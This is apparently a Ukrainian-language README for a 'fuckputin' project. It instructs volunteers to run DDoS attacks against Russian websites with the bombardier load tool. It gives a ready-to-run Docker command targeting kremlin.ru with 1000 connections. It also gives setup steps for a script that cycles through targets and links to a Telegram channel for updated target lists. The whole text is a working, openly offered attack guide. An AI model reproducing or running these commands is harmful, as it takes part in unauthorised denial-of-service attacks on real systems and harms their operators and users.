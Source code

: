 # fuckputin

🇺🇦 DDoS скрипт для координації боротьби з загарбницькими сайтами - використовує bash та [bombardier](https://github.com/codesenberg/bombardier) 🇺🇦

### [English manual](./README.md)

### Cпрощена інструкція - мануальне виконання скрипта

- Встановіть Docker - [Інструкції](https://docs.docker.com/get-docker/)
- `docker run -it alpine/bombardier -c 1000 -d 60s -l https://kremlin.ru`
- Остання частина команди це сайт, слід обрати сайт з [останніх повідоплень чату](https://t.me/itarmyofukraine2022)  

### Автоматичний скрипт

Скрипт виконує цю команду та автоматично підставляє цілі

#### Цілі

Найкраще слідкуйте за оновленими цілями [в цьому офіційному каналі](https://t.me/itarmyofukraine2022)  
Відредагуйте список у файлі [./fuckputin.sh](/fuckputin.sh)

#### Скрипт

- Зкачайте код виконаиши цю команду в терміналі:  
   `git clone https://github.com/v1adko/fuckputin.git`
- Перейдіть до папки з кодом - `cd ./fuckputin`
- (опціонально) Оновіть [цілі](#цілі)

#### Запуск в Docker контейнері (
   
*NOTE*: це може зайняты значно довше, тому якщо ви більш технічно досвідчені спробуйте [встановити бінарники прямо на вашу хост систему](#локальний-запуск)

- Встановіть Docker - [Інструкції](https://docs.docker.com/get-docker/)
- `docker-compose up --build` (на деяких системах compose не йде разом з docker)  
   **або**
- `docker build -t fuckputin .`
- `docker run fuckputin`

#### Локальний запуск

- Встановіть Go - [інструкції](https://go.dev/doc/install)
- Встановіть bombardier [зкачавши бінарний файл](https://github.com/codesenberg/bombardier/releases) відповідний до вашої системи
- Запустіть команду `./fuckputin-local.sh`

### Усе

Зараз можете залишити виконуватись программу на деякий час, можете [моніторити чат](https://t.me/itarmyofukraine2022) та [оновлювати цілі](#цілі) після чого перезапускати скрипт

Дякую за боротьбу! Україна переможе! 💪 🇺🇦
